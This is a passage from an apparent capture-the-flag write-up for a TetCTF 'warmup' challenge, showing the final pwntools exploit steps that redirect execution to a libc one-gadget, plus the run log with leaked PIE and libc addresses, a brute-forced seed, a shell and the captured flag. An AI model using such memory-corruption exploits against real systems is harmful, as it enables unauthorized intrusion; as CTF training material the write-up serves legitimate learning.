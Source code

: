 ```
constraints:
  [rsp+0x70] == NULL
```
I found that the second gadget worked consistently for me. The final steps in our exploit:
```py
# RIP CONTROL!!!
r.recvuntil("exit): ")
r.sendline("0")
r.recvuntil("feeback: ")
one_shot = p64(libc.address + 0x4527a)
r.sendline(one_shot)

r.interactive()
```
And we get our flag :)
```
[+] Opening connection to 192.46.228.70 on port 32337: Done
[*] RET addr leaked at 0x7ffd1f4f05ea
[*] PIE base leaked at 0x55d970db4000
[*] LIBC base leaked at 0x7fa7857ef000
[*] Found two rands: 1912167422, 290382100
[*] 0 candidates searched
[*] 1048576 candidates searched
[*] 2097152 candidates searched
[*] 3145728 candidates searched
[*] 4194304 candidates searched
[*] 5242880 candidates searched
[*] 6291456 candidates searched
[*] 7340032 candidates searched
[*] 8388608 candidates searched
[*] 9437184 candidates searched
[*] 10485760 candidates searched
[*] 11534336 candidates searched
[*] 12582912 candidates searched
[*] Computed seed: 13574108
[*] Switching to interactive mode
Thank for your feedback
$ cat /home/warmup/flag
TetCTF{viettel: *100*311267385452644#}
```
